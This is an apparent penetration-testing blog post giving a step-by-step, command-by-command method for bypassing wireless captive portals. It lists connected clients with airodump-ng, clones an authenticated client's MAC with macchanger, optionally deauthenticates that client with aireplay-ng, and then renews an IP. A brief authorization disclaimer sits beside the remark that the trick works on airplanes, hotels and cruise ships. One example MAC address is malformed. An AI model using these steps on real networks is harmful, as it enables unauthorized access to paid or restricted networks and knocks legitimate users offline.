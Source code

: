 ```yaml
---
layout: post
title: Bypassing Wireless Captive Portals
categories: [pentest, wireless, bypass]
tags: [captive portal, wireless, bypass]
comments: true
---
```

# Bypassing Wireless Captive Portals

Ocassionally, on client projects I come across Guest Wireless Networks that require a login after connecting for further network/Internet access. 
In many cases this can be bypassed by spoofing the MAC address of a client that has already connected and authenticated to an AP.  The reason this works is that an authenticated user’s MAC is given an IP that is allowed on the network, so when spoofing a MAC address, there is no need to authenticate as the MAC address is already allowed on the network. The steps below can be used to obtain a MAC address, spoof it and reconnect to an AP bypassing the captive portal login.

**disclaimer**

In addition to client sites, this also works on airplanes, hotels and cruise ships, so please use your powers for good and only perform actions on networks in which you have authorization. 

## Requirements
1.	MAC Changer
*	sudo apt install macchanger
2.	Aircrack-ng
* sudo apt install aircrack-ng

## Bypass Steps
In the examples below I had 2 wireless interfaces: a built in wireless card (wlx8416f907e91f) and a USB wireless card (wlan0).

1.	See what MACs are associated to the AP
* sudo airodump-ng <interface> --ivs
*	sudo airodump-ng wlx8416f907e91f –ivs

![aircrack](/assets/captiveportalbypass.png)

From the above we can see A0:3D:6F8B:5D:A0 is the BSSID of an AP (MAC address) of the target Guest Wifi and 70:70:0D:72:2C:3C is a client associated and hopefully authenticated with the AP.

2.	Bring the interface down in preparation to spoof the MAC address
* sudo ifconfig <interface> down
* sudo ifconfig wlan0 down
3.	Spoof the MAC address
* sudo macchanger --mac <MAC to spoof> <interface>
* sudo macchanger --mac 70:70:0D:72:2C:3C wlan0
4.	Bring interface back up
*	sudo ifconfig <interface> up
*	sudo ifconfig wlan0 up
5.	Deauth client, hoping to move them to a different AP so there is not a conflict. **This step is optional.**
*	sudo aireplay-ng -0 1 -a <BSSID> -c <client MAC> <interface>
*	sudo aireplay-ng -0 1 -a A0:3D:6F8B:5D:A0 -c 70:70:0D:72:2C:3C wlan0
6.	Connect the interface to the target SSID as normal.
7.	Release and renew your IP address now with the spoofed MAC.
*	sudo dhclient -r && sudo dhclient -v <interface>
*	sudo dhclient -r && sudo dhclient -v wlan0
8.	Profit

